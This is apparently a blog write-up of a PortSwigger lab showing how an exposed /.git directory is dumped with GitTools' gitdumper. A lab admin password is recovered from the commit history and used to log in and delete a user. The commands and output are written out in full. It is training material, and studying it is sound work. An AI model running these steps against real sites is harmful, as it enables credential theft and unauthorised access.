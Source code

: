 ```yaml
---
layout: post
title:  "Information disclosure in version control history"
date:   2024-10-14 12:20:54 +0530
categories: [BSCP, Information disclosure]
---
```


## Objective

  

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete the user `carlos`.

  

## Solution

  

We found that `/.git`  directory is accessible over thr browser and can able to browse the files inside those directory 

  

![]({{ site.baseurl }}/assets/images/image.png)  

  

With the help of the following tools like [GitTools](https://github.com/internetwache/GitTools "https://github.com/internetwache/GitTools") where we can do deep mining into the `/.git`  directory 

  

```
git clone https://github.com/internetwache/GitTools

Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 1.34 MiB/s, done.
Resolving deltas: 100% (88/88), done.
```

  

Now using `gitdumper`  we can dump those files 

  

```
./gitdumper.sh https://0af100170449d7ee81f725ea00760019.web-security-academy.net/.git/ ./output

[*] Destination folder does not exist
[+] Creating ./output/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/59/a11a147bc60e9c657255fe255c8dc59a396571
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/69/c1f3419d19725877d2116b27803eeda2f5770d
[+] Downloaded: objects/21/54555944002791a4d27412bf6e9a6f29e942fa
[+] Downloaded: objects/f1/0406cbf20c7394b26ab6527ff3b7847e9fb006
[+] Downloaded: objects/21/d23f13ce6c704b81857379a3e247e3436f4b26
[+] Downloaded: objects/89/44e3b9853691431dc58d5f4978d3940cea4af2
[+] Downloaded: objects/c6/dce6e78af021c0356d07915b04ae09eff9e3f1
```

  

Checking logs using `git log`  command shows there are two logs exists 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 69c1f3419d19725877d2116b27803eeda2f5770d
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

  

Our goal is to get the admin password for that reason I’m picking up this commit hash **59a11a147bc60e9c657255fe255c8dc59a396571** and with the following command `git show <commit hash>` 

  

```sh
commit 59a11a147bc60e9c657255fe255c8dc59a396571 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index c6dce6e..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=gsgt65n8qqttokocbunz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

  

Now with the admin password we have, we will go to our login page with the username as **administrator** and password as **gsgt65n8qqttokocbunz...** Delete the carlos to complete the lab 

  

![]({{ site.baseurl }}/assets/images/image%202.png)